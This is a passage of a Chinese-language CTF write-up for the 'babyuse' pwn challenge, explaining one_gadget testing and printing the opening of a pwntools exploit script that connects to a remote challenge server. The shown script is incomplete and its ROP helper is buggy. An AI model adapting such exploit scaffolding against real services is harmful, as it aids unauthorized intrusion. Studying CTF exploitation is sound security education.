 发现有三个地址可以，但都要满足一定的限制条件，one_gadget 提供了可以一次性自动测试所有的 gadget 地址的命令

```
➜  babyuse one_gadget libc.so.remote -s exp_babyuse.py 
```

原理是把地址作为脚本的第一个参数传进去，测试发现第一个 gadget 就符合要求。而远程的 libc 和本地的 libc 竟然一模一样，也是醉了，对面服务器也是 ubuntu 么。至此就成功利用了。

下面是利用脚本

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
""" dddong / AAA """

from pwn import *
import sys, os, re
context(arch='i386', os='linux', log_level='info')
context(terminal=['gnome-terminal', '-x', 'bash', '-c'])

def __get_base(p, _path):
    _vmmap = open('/proc/%d/maps' % p.proc.pid).read()
    _regex = '^.* r-xp .* {}$'.format(_path)
    _line = [_ for _ in _vmmap.split('\n') if re.match(_regex, _)][0]
    return int(_line.split('-')[0], 16)

def gen_rop(func_addr, args):
    """
    automate generate rop function
    _gadgets array contains gadgets address for 0,1,2,... args 
    """
    _gadgets = []
    rop = ""
    rop += p32(func_addr)
    if len(args) > 1:
        rop += _gadgets[len(args)]
        for arg in args:
            rop += p32(args)
    return rop


_program = 'babyuse' 
_pwn_remote = 0
_debug = int(sys.argv[1]) if len(sys.argv) > 1 else 0

elf = ELF('./' + _program)

if _pwn_remote == 0:
    os.environ['LD_PRELOAD'] = ''
    libc = ELF('./libc.so.6')
    p = process('./' + _program)

    if _debug != 0:
        if elf.pie:
            _bps = [0x144e] #breakpoints defined by yourself, not absolute addr, but offset addr of the program's base addr 
            _wps = [0x408c]
            _offset = __get_base(p, os.path.abspath(p.executable))
            _source = '\n'.join(['b*%d' % (_offset + _) for _ in _bps])
            _source = _source + '\n' + '\n'.join(['watch *%d' % (_offset + _) for _ in _wps])
        else:
            _source = 'source peda-session-%s.txt' % _program
else:
    libc = ELF('./libc.so.remote') 
    p = remote('202.112.51.247', 3456)	
    p.recvuntil("Token")
```